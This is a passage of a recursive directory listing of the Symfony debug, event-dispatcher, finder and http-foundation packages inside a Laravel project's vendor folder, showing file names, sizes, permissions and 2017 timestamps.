-rw-r--r--  1 www-data www-data  26K Mar 29  2017 ErrorHandler.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 29  2017 Exception
-rw-r--r--  1 www-data www-data  16K Mar 29  2017 ExceptionHandler.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 29  2017 FatalErrorHandler
-rw-r--r--  1 www-data www-data 1.1K Mar 29  2017 LICENSE
-rw-r--r--  1 www-data www-data  482 Mar 29  2017 README.md
drwxr-xr-x  3 www-data www-data 4.0K Mar 29  2017 Resources
drwxr-xr-x  6 www-data www-data 4.0K Mar 29  2017 Tests
-rw-r--r--  1 www-data www-data 1000 Mar 29  2017 composer.json
-rw-r--r--  1 www-data www-data  930 Mar 29  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/debug/Exception:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  828 Mar 29  2017 ClassNotFoundException.php
-rw-r--r-- 1 www-data www-data  875 Mar 29  2017 ContextErrorException.php
-rw-r--r-- 1 www-data www-data 2.8K Mar 29  2017 FatalErrorException.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 29  2017 FatalThrowableError.php
-rw-r--r-- 1 www-data www-data 6.9K Mar 29  2017 FlattenException.php
-rw-r--r-- 1 www-data www-data  424 Mar 29  2017 OutOfMemoryException.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 29  2017 SilencedErrorContext.php
-rw-r--r-- 1 www-data www-data  811 Mar 29  2017 UndefinedFunctionException.php
-rw-r--r-- 1 www-data www-data  806 Mar 29  2017 UndefinedMethodException.php

/var/www/laravel/vendor/symfony/debug/FatalErrorHandler:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 7.2K Mar 29  2017 ClassNotFoundFatalErrorHandler.php
-rw-r--r-- 1 www-data www-data  959 Mar 29  2017 FatalErrorHandlerInterface.php
-rw-r--r-- 1 www-data www-data 3.0K Mar 29  2017 UndefinedFunctionFatalErrorHandler.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 29  2017 UndefinedMethodFatalErrorHandler.php

/var/www/laravel/vendor/symfony/debug/Resources:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 ext

/var/www/laravel/vendor/symfony/debug/Resources/ext:
total 36K
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 ..
-rw-r--r-- 1 www-data www-data 3.0K Mar 29  2017 README.md
-rw-r--r-- 1 www-data www-data 2.2K Mar 29  2017 config.m4
-rw-r--r-- 1 www-data www-data  345 Mar 29  2017 config.w32
-rw-r--r-- 1 www-data www-data 1.9K Mar 29  2017 php_symfony_debug.h
-rw-r--r-- 1 www-data www-data 6.7K Mar 29  2017 symfony_debug.c
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 tests

/var/www/laravel/vendor/symfony/debug/Resources/ext/tests:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 ..
-rw-r--r-- 1 www-data www-data 2.6K Mar 29  2017 001.phpt
-rw-r--r-- 1 www-data www-data  911 Mar 29  2017 002.phpt
-rw-r--r-- 1 www-data www-data  642 Mar 29  2017 002_1.phpt
-rw-r--r-- 1 www-data www-data 2.1K Mar 29  2017 003.phpt

/var/www/laravel/vendor/symfony/debug/Tests:
total 72K
drwxr-xr-x 6 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  11K Mar 29  2017 DebugClassLoaderTest.php
-rw-r--r-- 1 www-data www-data  19K Mar 29  2017 ErrorHandlerTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 Exception
-rw-r--r-- 1 www-data www-data 4.1K Mar 29  2017 ExceptionHandlerTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 FatalErrorHandler
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 Fixtures
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 Fixtures2
-rw-r--r-- 1 www-data www-data  673 Mar 29  2017 HeaderMock.php
-rw-r--r-- 1 www-data www-data  476 Mar 29  2017 MockExceptionHandler.php

/var/www/laravel/vendor/symfony/debug/Tests/Exception:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 29  2017 ..
-rw-r--r-- 1 www-data www-data  12K Mar 29  2017 FlattenExceptionTest.php

/var/www/laravel/vendor/symfony/debug/Tests/FatalErrorHandler:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 29  2017 ..
-rw-r--r-- 1 www-data www-data 7.4K Mar 29  2017 ClassNotFoundFatalErrorHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 29  2017 UndefinedFunctionFatalErrorHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 29  2017 UndefinedMethodFatalErrorHandlerTest.php

/var/www/laravel/vendor/symfony/debug/Tests/Fixtures:
total 48K
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 29  2017 ..
-rw-r--r-- 1 www-data www-data  126 Mar 29  2017 ClassAlias.php
-rw-r--r-- 1 www-data www-data  172 Mar 29  2017 DeprecatedClass.php
-rw-r--r-- 1 www-data www-data  180 Mar 29  2017 DeprecatedInterface.php
-rw-r--r-- 1 www-data www-data  123 Mar 29  2017 NonDeprecatedInterface.php
-rw-r--r-- 1 www-data www-data   66 Mar 29  2017 PEARClass.php
-rw-r--r-- 1 www-data www-data  541 Mar 29  2017 ToStringThrower.php
-rw-r--r-- 1 www-data www-data   81 Mar 29  2017 casemismatch.php
-rw-r--r-- 1 www-data www-data   79 Mar 29  2017 notPsr0Bis.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 psr4
-rw-r--r-- 1 www-data www-data   76 Mar 29  2017 reallyNotPsr0.php

/var/www/laravel/vendor/symfony/debug/Tests/Fixtures/psr4:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 29  2017 ..
-rw-r--r-- 1 www-data www-data   85 Mar 29  2017 Psr4CaseMismatch.php

/var/www/laravel/vendor/symfony/debug/Tests/Fixtures2:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 29  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar 29  2017 ..
-rw-r--r-- 1 www-data www-data   83 Mar 29  2017 RequiredTwice.php

/var/www/laravel/vendor/symfony/event-dispatcher:
total 80K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Apr  4  2017 .gitignore
-rw-r--r--  1 www-data www-data 1.1K Apr  4  2017 CHANGELOG.md
-rw-r--r--  1 www-data www-data 6.2K Apr  4  2017 ContainerAwareEventDispatcher.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Debug
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 DependencyInjection
-rw-r--r--  1 www-data www-data 1.6K Apr  4  2017 Event.php
-rw-r--r--  1 www-data www-data 5.5K Apr  4  2017 EventDispatcher.php
-rw-r--r--  1 www-data www-data 3.3K Apr  4  2017 EventDispatcherInterface.php
-rw-r--r--  1 www-data www-data 1.6K Apr  4  2017 EventSubscriberInterface.php
-rw-r--r--  1 www-data www-data 3.8K Apr  4  2017 GenericEvent.php
-rw-r--r--  1 www-data www-data 2.4K Apr  4  2017 ImmutableEventDispatcher.php
-rw-r--r--  1 www-data www-data 1.1K Apr  4  2017 LICENSE
-rw-r--r--  1 www-data www-data  610 Apr  4  2017 README.md
drwxr-xr-x  4 www-data www-data 4.0K Apr  4  2017 Tests
-rw-r--r--  1 www-data www-data 1.1K Apr  4  2017 composer.json
-rw-r--r--  1 www-data www-data  835 Apr  4  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/event-dispatcher/Debug:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 9.1K Apr  4  2017 TraceableEventDispatcher.php
-rw-r--r-- 1 www-data www-data  803 Apr  4  2017 TraceableEventDispatcherInterface.php
-rw-r--r-- 1 www-data www-data 3.2K Apr  4  2017 WrappedListener.php

/var/www/laravel/vendor/symfony/event-dispatcher/DependencyInjection:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 4.5K Apr  4  2017 RegisterListenersPass.php

/var/www/laravel/vendor/symfony/event-dispatcher/Tests:
total 56K
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  14K Apr  4  2017 AbstractEventDispatcherTest.php
-rw-r--r-- 1 www-data www-data 6.2K Apr  4  2017 ContainerAwareEventDispatcherTest.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Debug
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 DependencyInjection
-rw-r--r-- 1 www-data www-data  509 Apr  4  2017 EventDispatcherTest.php
-rw-r--r-- 1 www-data www-data 1.3K Apr  4  2017 EventTest.php
-rw-r--r-- 1 www-data www-data 3.6K Apr  4  2017 GenericEventTest.php
-rw-r--r-- 1 www-data www-data 3.0K Apr  4  2017 ImmutableEventDispatcherTest.php

/var/www/laravel/vendor/symfony/event-dispatcher/Tests/Debug:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 9.2K Apr  4  2017 TraceableEventDispatcherTest.php

/var/www/laravel/vendor/symfony/event-dispatcher/Tests/DependencyInjection:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 7.5K Apr  4  2017 RegisterListenersPassTest.php

/var/www/laravel/vendor/symfony/finder:
total 76K
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Mar 20  2017 .gitignore
-rw-r--r--  1 www-data www-data 1.2K Mar 20  2017 CHANGELOG.md
drwxr-xr-x  2 www-data www-data 4.0K Mar 20  2017 Comparator
drwxr-xr-x  2 www-data www-data 4.0K Mar 20  2017 Exception
-rw-r--r--  1 www-data www-data  19K Mar 20  2017 Finder.php
-rw-r--r--  1 www-data www-data 3.3K Mar 20  2017 Glob.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 20  2017 Iterator
-rw-r--r--  1 www-data www-data 1.1K Mar 20  2017 LICENSE
-rw-r--r--  1 www-data www-data  500 Mar 20  2017 README.md
-rw-r--r--  1 www-data www-data 1.9K Mar 20  2017 SplFileInfo.php
drwxr-xr-x  5 www-data www-data 4.0K Mar 20  2017 Tests
-rw-r--r--  1 www-data www-data  755 Mar 20  2017 composer.json
-rw-r--r--  1 www-data www-data  775 Mar 20  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/finder/Comparator:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.1K Mar 20  2017 Comparator.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 20  2017 DateComparator.php
-rw-r--r-- 1 www-data www-data 2.6K Mar 20  2017 NumberComparator.php

/var/www/laravel/vendor/symfony/finder/Exception:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  427 Mar 20  2017 AccessDeniedException.php
-rw-r--r-- 1 www-data www-data  495 Mar 20  2017 ExceptionInterface.php

/var/www/laravel/vendor/symfony/finder/Iterator:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Mar 20  2017 CustomFilterIterator.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 20  2017 DateRangeFilterIterator.php
-rw-r--r-- 1 www-data www-data 1.3K Mar 20  2017 DepthRangeFilterIterator.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 20  2017 ExcludeDirectoryFilterIterator.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 20  2017 FileTypeFilterIterator.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 20  2017 FilecontentFilterIterator.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 20  2017 FilenameFilterIterator.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 20  2017 FilterIterator.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 20  2017 MultiplePcreFilterIterator.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 20  2017 PathFilterIterator.php
-rw-r--r-- 1 www-data www-data 4.5K Mar 20  2017 RecursiveDirectoryIterator.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 20  2017 SizeRangeFilterIterator.php
-rw-r--r-- 1 www-data www-data 2.6K Mar 20  2017 SortableIterator.php

/var/www/laravel/vendor/symfony/finder/Tests:
total 52K
drwxr-xr-x 5 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 Comparator
-rw-r--r-- 1 www-data www-data  26K Mar 20  2017 FinderTest.php
drwxr-xr-x 7 www-data www-data 4.0K Mar 20  2017 Fixtures
-rwxr-xr-x 1 www-data www-data  739 Mar 20  2017 GlobTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 Iterator

/var/www/laravel/vendor/symfony/finder/Tests/Comparator:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Mar 20  2017 ComparatorTest.php
-rw-r--r-- 1 www-data www-data 2.4K Mar 20  2017 DateComparatorTest.php
-rw-r--r-- 1 www-data www-data 3.6K Mar 20  2017 NumberComparatorTest.php

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures:
total 40K
drwxr-xr-x 7 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 20  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 A
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 copy
-rw-r--r-- 1 www-data www-data   29 Mar 20  2017 dolor.txt
-rw-r--r-- 1 www-data www-data   41 Mar 20  2017 ipsum.txt
-rw-r--r-- 1 www-data www-data   53 Mar 20  2017 lorem.txt
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 one
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 r+e.gex[c]a(r)s
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 with space

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/A:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar 20  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 B
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 a.dat

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/A/B:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 C
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 ab.dat

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/A/B/C:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 abc.dat

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/copy:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar 20  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 A

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/copy/A:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 B
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 a.dat.copy

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/copy/A/B:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 C
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 ab.dat.copy

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/copy/A/B/C:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 abc.dat.copy

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/one:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 a
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 b

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/one/b:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 c.neon
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 d.neon

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/r+e.gex[c]a(r)s:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar 20  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 dir

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/r+e.gex[c]a(r)s/dir:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 bar.dat

/var/www/laravel/vendor/symfony/finder/Tests/Fixtures/with space:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 20  2017 foo.txt

/var/www/laravel/vendor/symfony/finder/Tests/Iterator:
total 84K
drwxr-xr-x 2 www-data www-data 4.0K Mar 20  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 20  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Mar 20  2017 CustomFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 1.9K Mar 20  2017 DateRangeFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 2.2K Mar 20  2017 DepthRangeFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 20  2017 ExcludeDirectoryFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 20  2017 FileTypeFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 2.7K Mar 20  2017 FilecontentFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 1.5K Mar 20  2017 FilenameFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 20  2017 FilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 20  2017 Iterator.php
-rw-r--r-- 1 www-data www-data 3.4K Mar 20  2017 IteratorTestCase.php
-rw-r--r-- 1 www-data www-data  552 Mar 20  2017 MockFileListIterator.php
-rw-r--r-- 1 www-data www-data 3.3K Mar 20  2017 MockSplFileInfo.php
-rw-r--r-- 1 www-data www-data 2.3K Mar 20  2017 MultiplePcreFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 20  2017 PathFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 3.0K Mar 20  2017 RealIteratorTestCase.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 20  2017 RecursiveDirectoryIteratorTest.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 20  2017 SizeRangeFilterIteratorTest.php
-rw-r--r-- 1 www-data www-data 5.7K Mar 20  2017 SortableIteratorTest.php

/var/www/laravel/vendor/symfony/http-foundation:
total 276K
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Apr  4  2017 .gitignore
-rw-r--r--  1 www-data www-data 3.6K Apr  4  2017 AcceptHeader.php
-rw-r--r--  1 www-data www-data 4.8K Apr  4  2017 AcceptHeaderItem.php
-rw-r--r--  1 www-data www-data  930 Apr  4  2017 ApacheRequest.php
-rw-r--r--  1 www-data www-data  12K Apr  4  2017 BinaryFileResponse.php
-rw-r--r--  1 www-data www-data 7.1K Apr  4  2017 CHANGELOG.md
-rw-r--r--  1 www-data www-data 6.0K Apr  4  2017 Cookie.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 Exception
-rw-r--r--  1 www-data www-data 1.4K Apr  4  2017 ExpressionRequestMatcher.php
drwxr-xr-x  4 www-data www-data 4.0K Apr  4  2017 File
-rw-r--r--  1 www-data www-data 3.9K Apr  4  2017 FileBag.php
-rw-r--r--  1 www-data www-data 8.5K Apr  4  2017 HeaderBag.php
-rw-r--r--  1 www-data www-data 3.9K Apr  4  2017 IpUtils.php
-rw-r--r--  1 www-data www-data 7.1K Apr  4  2017 JsonResponse.php
-rw-r--r--  1 www-data www-data 1.1K Apr  4  2017 LICENSE
-rw-r--r--  1 www-data www-data 6.0K Apr  4  2017 ParameterBag.php
-rw-r--r--  1 www-data www-data  537 Apr  4  2017 README.md
-rw-r--r--  1 www-data www-data 2.7K Apr  4  2017 RedirectResponse.php
-rw-r--r--  1 www-data www-data  64K Apr  4  2017 Request.php
-rw-r--r--  1 www-data www-data 4.4K Apr  4  2017 RequestMatcher.php
-rw-r--r--  1 www-data www-data  758 Apr  4  2017 RequestMatcherInterface.php
-rw-r--r--  1 www-data www-data 2.4K Apr  4  2017 RequestStack.php
-rw-r--r--  1 www-data www-data  37K Apr  4  2017 Response.php
-rw-r--r--  1 www-data www-data 8.6K Apr  4  2017 ResponseHeaderBag.php
-rw-r--r--  1 www-data www-data 4.2K Apr  4  2017 ServerBag.php
drwxr-xr-x  5 www-data www-data 4.0K Apr  4  2017 Session
-rw-r--r--  1 www-data www-data 3.1K Apr  4  2017 StreamedResponse.php
drwxr-xr-x  4 www-data www-data 4.0K Apr  4  2017 Tests
-rw-r--r--  1 www-data www-data  904 Apr  4  2017 composer.json
-rw-r--r--  1 www-data www-data  834 Apr  4  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/http-foundation/Exception:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  565 Apr  4  2017 ConflictingHeadersException.php

/var/www/laravel/vendor/symfony/http-foundation/File:
total 36K
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Exception
-rw-r--r-- 1 www-data www-data 4.1K Apr  4  2017 File.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 MimeType
-rw-r--r-- 1 www-data www-data 9.0K Apr  4  2017 UploadedFile.php

/var/www/laravel/vendor/symfony/http-foundation/File/Exception:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data  695 Apr  4  2017 AccessDeniedException.php
-rw-r--r-- 1 www-data www-data  466 Apr  4  2017 FileException.php
-rw-r--r-- 1 www-data www-data  689 Apr  4  2017 FileNotFoundException.php
-rw-r--r-- 1 www-data www-data  573 Apr  4  2017 UnexpectedTypeException.php
-rw-r--r-- 1 www-data www-data  461 Apr  4  2017 UploadException.php

/var/www/laravel/vendor/symfony/http-foundation/File/MimeType:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 2.5K Apr  4  2017 ExtensionGuesser.php
-rw-r--r-- 1 www-data www-data  669 Apr  4  2017 ExtensionGuesserInterface.php
-rw-r--r-- 1 www-data www-data 2.2K Apr  4  2017 FileBinaryMimeTypeGuesser.php
-rw-r--r-- 1 www-data www-data 1.7K Apr  4  2017 FileinfoMimeTypeGuesser.php
-rw-r--r-- 1 www-data www-data  36K Apr  4  2017 MimeTypeExtensionGuesser.php
-rw-r--r-- 1 www-data www-data 4.0K Apr  4  2017 MimeTypeGuesser.php
-rw-r--r-- 1 www-data www-data  967 Apr  4  2017 MimeTypeGuesserInterface.php

/var/www/laravel/vendor/symfony/http-foundation/Session:
total 40K
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Attribute
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Flash
-rw-r--r-- 1 www-data www-data 5.3K Apr  4  2017 Session.php
-rw-r--r-- 1 www-data www-data  883 Apr  4  2017 SessionBagInterface.php
-rw-r--r-- 1 www-data www-data 4.3K Apr  4  2017 SessionInterface.php
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 Storage

/var/www/laravel/vendor/symfony/http-foundation/Session/Attribute:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 3.0K Apr  4  2017 AttributeBag.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  4  2017 AttributeBagInterface.php
-rw-r--r-- 1 www-data www-data 4.0K Apr  4  2017 NamespacedAttributeBag.php

/var/www/laravel/vendor/symfony/http-foundation/Session/Flash:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 3.6K Apr  4  2017 AutoExpireFlashBag.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  4  2017 FlashBag.php
-rw-r--r-- 1 www-data www-data 2.0K Apr  4  2017 FlashBagInterface.php

/var/www/laravel/vendor/symfony/http-foundation/Session/Storage:
total 56K
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  4  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Handler
-rw-r--r-- 1 www-data www-data 3.6K Apr  4  2017 MetadataBag.php
-rw-r--r-- 1 www-data www-data 5.3K Apr  4  2017 MockArraySessionStorage.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  4  2017 MockFileSessionStorage.php
-rw-r--r-- 1 www-data www-data  12K Apr  4  2017 NativeSessionStorage.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  4  2017 PhpBridgeSessionStorage.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 Proxy
-rw-r--r-- 1 www-data www-data 4.1K Apr  4  2017 SessionStorageInterface.php

/var/www/laravel/vendor/symfony/http-foundation/Session/Storage/Handler:
total 72K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data 2.7K Apr  4  2017 MemcacheSessionHandler.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  4  2017 MemcachedSessionHandler.php
-rw-r--r-- 1 www-data www-data 6.7K Apr  4  2017 MongoDbSessionHandler.php
-rw-r--r-- 1 www-data www-data 1.8K Apr  4  2017 NativeFileSessionHandler.php
-rw-r--r-- 1 www-data www-data  462 Apr  4  2017 NativeSessionHandler.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  4  2017 NullSessionHandler.php
